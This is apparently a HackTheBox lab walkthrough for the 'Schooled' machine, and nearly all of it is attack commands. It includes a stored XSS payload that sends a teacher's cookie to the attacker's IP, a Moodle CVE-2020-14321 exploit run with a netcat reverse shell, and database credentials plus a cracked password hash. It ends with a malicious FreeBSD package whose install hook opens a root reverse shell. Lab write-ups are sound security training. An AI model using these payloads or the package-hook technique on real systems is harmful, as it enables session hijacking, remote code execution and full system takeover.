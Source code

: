 1. Connect the box, get IP.  
2. Run nmap:
    ```bash
    nmap -Pn -A 10.10.10.234
    ```  
    ![](/HackTheBox/images/schooled1.png)  
3. In the bottom of site, we see 'schooled.htb', add that to /etc/hosts.  
    ![](/HackTheBox/images/schooled2.png)  
4. Run gobuster vhost for subdomain search:
    ```bash
    gobuster vhost -u schooled.htb -w /root/tools/dnscan/subdomains-500.txt -z -t 100 
    ```  
    ![](/HackTheBox/images/schooled3.png)  
    Found moodle.schooled.htb, add that to /etc/hosts.  
5. Open moodle.schooled.htb.  
6. Create account, login, join Mathematics course, check Announcements.  
    ![](/HackTheBox/images/schooled4.png)  
7. Go to Edit profile, see the MoodleNet field.  
    Type in 
    ```html
    "><h1>test</h1>
    ```  
    and Update profile, you see this:  
    ![](/HackTheBox/images/schooled5.png)  
    Hence, the site has XSS (Cross-Site Scripting)  
8. Run python server on your machine:
    ```bash
    python3 -m http.server 4443
    ```
9. Type this in MoodleNet area:  
    ```html
    <script>new Image().src="http://10.10.14.7:4443?c="+document.cookie;</script>
    ```
    Wait for a while.  
10. Teacher's cookie comes in the python server. Replace that and you are the teacher now.  
    ![](/HackTheBox/images/schooled6.png)  
    ![](/HackTheBox/images/schooled7.png)  
11. Use this CVE: [CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).  
    Run nc server:
    ```bash
    nc -lnvp 1234
    ```
    Run this command:  
    ```bash
    python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle/ --cookie b2vg6doaecljo3tdro0apnbht2 --cdomain moodle.schooled.htb --cpath '/moodle/' -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f'
    ```
    We get reverse shell:  
    ![](/HackTheBox/images/schooled8.png)  
12. Use nc to transfer FreeBSD socat and stabilize shell.  
13. The username and password of mysql are in '/usr/local/www/apache24/data/moodle/config.php'.
    ```User: moodle, DBname: moodle, Password: PlaybookMaster2020```
14. Login to mysql,
    ```bash
    mysql -u moodle -p moodle
    ```
    Enter the password as found above.  
    ![](/HackTheBox/images/schooled9.png)  
15. Run:
    ```mysql
    show tables;
    ```
    to show tables, there is a table named "mdl_user".  
16. Run:
    ```mysql
    describe mdl_user;
    ```
    to show all columns in that table, there is a column named "username" and "password".
17. Run:
    ```mysql
    select email, username, password from mdl_user;
    ```
18. We get the admin's (jamie's) password hash, crack it using john.
    ```
    hash: $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
    cracked: !QAZ2wsx
    ```
19. Login to jamie's ssh using the password, get 'user.txt'.
20. run sudo -l, get this:  
    ![](/HackTheBox/images/schooled10.png)
21. We need to create a custom package for FreeBSD. Refer to [this site](http://lastsummer.de/creating-custom-packages-on-freebsd/).  
22. Run this script as jamie:
    ```bash
    #!/bin/sh

    STAGEDIR=/tmp/package

    rm -rf ${STAGEDIR}
    mkdir -p ${STAGEDIR}

    cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF
    # careful here, this may clobber your system
    echo “Resetting root shell”
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f
    EOF

    cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
    # careful here, this may clobber your system
    echo “Registering root shell”
    pw usermod -n root -s /bin/sh
    EOF

    cat >> ${STAGEDIR}/+MANIFEST <<EOF
    name: mypackage
    version: “1.0_5”
    origin: sysutils/mypackage
    comment: “automates stuff”
    desc: “automates tasks which can also be undone later”
    maintainer: john@doe.it
    www: https://doe.it
    prefix: /
    EOF

    pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
    ```
23. Set up a nc listener:
    ```bash
    nc -lnvp 1234
    ```
24. A .txz file will be created in the current directory. Run the following command to install the package:
    ```bash
    sudo pkg install --no-repo-update *.txz
    ```
25. And we have got our root shell. Get 'root.txt' from here.